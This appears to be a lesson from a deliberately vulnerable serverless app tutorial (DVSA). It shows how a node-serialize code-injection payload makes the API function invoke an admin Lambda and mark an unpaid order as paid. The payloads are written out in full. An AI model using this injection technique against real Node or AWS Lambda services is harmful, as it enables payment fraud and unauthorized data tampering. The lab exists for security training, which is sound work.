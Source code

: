 # LESSON #5: Broken Access Control

The DVSA applicaiton has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) is it possible to invoke admin function using the standard API calls.

This means that by invoking the right funciton at the right time, we can skip the payment. But, first, we start with the normal flow:

- ```{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}```

- ```{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}```

- ```{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}```

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:
```
neworder = {"body":{"action":"update", "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba", "item":{"userId": "12312312-1233-1233-1233-123123123123", "token": "aSD32d2ASd2", "ts": "1545594489", "itemList": {"20":2}, "address": {"name": "john doe", "email": "secret@email.com", "address": "po box 12333"}, "total":25, "status":120}}}
```

Now, we have to pass it as part of the exploit itself:
```
'{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}'```

Which eventually looks like that:
```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"body\": {\"action\": \"update\", \"item\": {\"status\": 120, \"userId\": \"12312312-1233-1233-1233-123123123123\", \"ts\": 1545594489, \"token\": \"aSD32d2ASd2\", \"itemList\": {\"20\": 2}, \"address\": {\"address\": \"po box 131337\", \"name\": \"john doe\", \"email\": \"secret@email.com\"}, \"total\": 25}, \"order-id\": \"cc241d5c-f665-48db-8e55-4391f62465ba\"}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```
![alt stealing](https://i.imgur.com/4XofIS8.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipts will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.
